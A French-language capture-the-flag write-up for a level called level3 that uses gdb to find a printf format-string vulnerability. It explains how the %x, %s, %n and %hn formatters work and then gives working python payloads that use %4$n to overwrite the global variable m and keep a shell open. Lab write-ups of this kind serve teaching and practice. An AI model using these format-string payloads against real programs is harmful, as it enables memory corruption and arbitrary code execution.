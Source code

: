 # Level3

On a un main qui ne fait pas grand chose a part call la fonction `v()`

On a encore un call a gets qui va surement nous servir pour faire un BoF

Mettons un break point dans `v()` apres le gets
Analysons les informations que nous avons

On a un seved eip : `0x8048525`

```
(gdb) x/i 0x8048525
   0x8048525 <main+11>: leave
```

On a eax qui pointe vers `0xbffff520` (notre chaine)
```
x/s 0xbffff520
0xbffff520:      "\n"
```

Ensuite notre buf est envoye a printf
`0x804988c`

`0x080484da <+54>:    mov    0x804988c,%eax`
                                
A quoi correspond `0x804988c` ?

```
(gdb) x/x 0x804988c
0x804988c <m>:  0x00000000
```

On voit un `<m>` qui apparait ici que je n'avais jamais vu avant
En cherchant un peu, j'ai vu que cette adresse etait dans la partie .bss du programme

`0804988c  uint32_t m = 0x0`

Variable gloable ?
Exploit printf ?

On passe en argument à notre programme des formateurs. Le programme se retrouve donc à exécuter
la chose suivante :
   printf("%x%x%x%x");
Seulement vous on remarque que la fonction printf() n'a pas d'arguments pour remplacer les formateurs dans la chaine.
Elle affiche donc ce qu'elle a sous la main, c'est à dire les valeurs présentes sur la pile.

Types de formateurs

Formateurs directs (comme %x) : Affichent directement la valeur ciblée sur la pile

Formateurs pointeurs (comme %s) : Affichent la valeur située à l'adresse ciblée

Formateur spécial %n : Écrit en mémoire le nombre de caractères affichés avant lui

Mécanisme d'exploitation
Fonctionnement

La fonction printf() parcourt la pile 4 octets par 4 octets pour trouver les valeurs à afficher

Sans arguments, printf() affiche les valeurs présentes sur la pile
Le formateur %n permet d'écrire en mémoire à une adresse spécifique
Technique d'exploitation

   Utilisation de %hn pour écrire 2 octets à la fois

Possibilité de contrôler le flux d'exécution en écrasant l'adresse de retour (EIP)
Utilisation de la notation %Nd pour générer des padding de taille contrôlée

Impact
Cette vulnérabilité permet notamment :

La lecture de données sensibles en mémoire
L'écriture à des adresses arbitraires
L'exécution de code arbitraire via la redirection du flux d'exécution


python -c "print '\x8c\x98\x04\x08' + ' + '%4$n'"

Le symbole $ dans %4$n est un paramètre de position qui permet d'accéder directement au 4ème argument sur la pile 

0xbffff520 adresse du buf

x/x 0xbffff520
0xbffff520:     0x0804988c --> CORRESPOND A NOTRE GLOBALE :D

Plus qu'a modifier sa valeur

"AAAA + "%x %x %x %x %x"

printf exploit --> 
r < <(python -c 'print "\x8c\x98\x04\x08" + "A"*60 + "%4$n"')
(python -c 'print "\x8c\x98\x04\x08" + "%60d" + "%4$n"'; cat) | ./level3
(python -c 'print "\x8c\x98\x04\x08" + "%60c" + "%4$n"'; cat) | ./level3
(python -c 'print "\x8c\x98\x04\x08" + "A"*60 + "%4$n"'; cat) | ./level3
